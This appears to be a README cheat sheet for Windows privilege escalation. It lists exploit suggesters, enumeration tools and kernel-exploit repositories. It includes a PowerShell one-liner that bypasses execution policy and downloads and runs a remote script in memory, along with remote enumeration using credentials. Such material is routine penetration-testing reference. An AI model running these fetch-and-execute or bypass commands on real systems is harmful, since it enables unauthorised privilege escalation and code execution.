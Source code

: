 # windows-prives-esc

## Running exploit suggesters to get exploits info</br>
**Getting systeminfo**</br>
```systeminfo > systeminfo.txt```</br>

**Download all kernel exploits from secwiki kernel exploits & other exploits listing:**
https://github.com/SecWiki/windows-kernel-exploits</br>
https://github.com/abatchy17/WindowsExploits</br>

**Tools for Exploits listing**</br>
**1. Download Wes.py:** https://github.com/bitsadmin/wesng</br>
```wes.py systeminfo.txt```</br>

**2. Download Windows exploit suggester script:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester</br>
```windows-exploit-suggester.py --update```</br>
```windows-exploit-suggester.py systeminfo.txt```</br>

**3. Download and run powerup script:** </br>
```powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks```

**4. Download Jaws script:** https://github.com/411Hall/JAWS</br>
```powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt```</br>

**5. Download & run seatbelt:** https://github.com/GhostPack/Seatbelt
`````
Seatbelt.exe -group=all -full
Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
`````

**6. Download & run winpeas:** https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe </br>
To enable results in colour run the command: 
```REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 ```</br>
```winpeas.exe```
